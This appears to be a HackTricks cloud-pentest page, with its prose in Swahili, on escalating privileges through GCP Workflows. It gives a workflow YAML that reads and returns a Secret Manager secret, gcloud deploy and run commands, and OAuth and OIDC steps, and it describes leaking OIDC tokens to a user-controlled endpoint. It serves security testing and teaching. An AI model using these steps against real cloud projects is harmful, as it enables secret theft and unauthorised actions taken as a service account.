 # GCP - Workflows Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Workflows

Basic Information:

{{#ref}}
../gcp-services/gcp-workflows-enum.md
{{#endref}}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Kwa kadri ninavyojua, si rahisi kupata shell yenye ufikiaji wa metadata endpoint inayoshikilia akreditif za SA ya SA iliyoshambuliwa kwenye Workflow. Hata hivyo, inawezekana kutumia vibaya ruhusa za SA kwa kuongeza vitendo vya kutekeleza ndani ya Workflow.

Inawezekana kupata nyaraka za viunganishi. Kwa mfano, hii ni [**ukurasa wa kiunganishi cha Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Katika upande wa bar, inawezekana kupata viunganishi vingine vingi.

Na hapa unaweza kupata mfano wa kiunganishi ambacho kinachapisha siri:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: "${str_secret}"
```
Sasisha kutoka kwa CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Ikiwa unapata kosa kama `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, **ngoja dakika moja na ujaribu tena**.

Ikiwa huna ufikiaji wa mtandao, inawezekana kuanzisha na kuona utekelezaji wa Workflow kwa:
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
> [!CAUTION]
> Unaweza pia kuangalia matokeo ya utekelezaji wa awali kutafuta taarifa nyeti

Kumbuka kwamba hata kama unapata kosa kama `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` kwa sababu huna ruhusa hiyo, workflow imeundwa.

### Leak OIDC token (na OAuth?)

Kulingana na [**nyaraka**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) inawezekana kutumia hatua za workflow ambazo zitatumia ombi la HTTP na token ya OAuth au OIDC. Hata hivyo, kama ilivyo katika kesi ya [Cloud Scheduler](gcp-cloudscheduler-privesc.md), ombi la HTTP lenye token ya Oauth lazima liwe kwa mwenyeji `.googleapis.com`.

> [!CAUTION]
> Hivyo, ni **uwezekano wa kuvuja token ya OIDC kwa kuashiria mwisho wa HTTP** unaodhibitiwa na mtumiaji lakini ili kuvuja token ya **OAuth** unahitaji **kupita** kwa ulinzi huo. Hata hivyo, bado unaweza **kuwasiliana na api yoyote ya GCP ili kufanya vitendo kwa niaba ya SA** ukitumia ama viunganishi au maombi ya HTTP yenye token ya OAuth.

#### Oauth
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Kwa ruhusa hii badala ya `workflows.workflows.create` inawezekana kuboresha mchakato uliopo tayari na kufanya mashambulizi sawa. 

{{#include ../../../banners/hacktricks-training.md}}
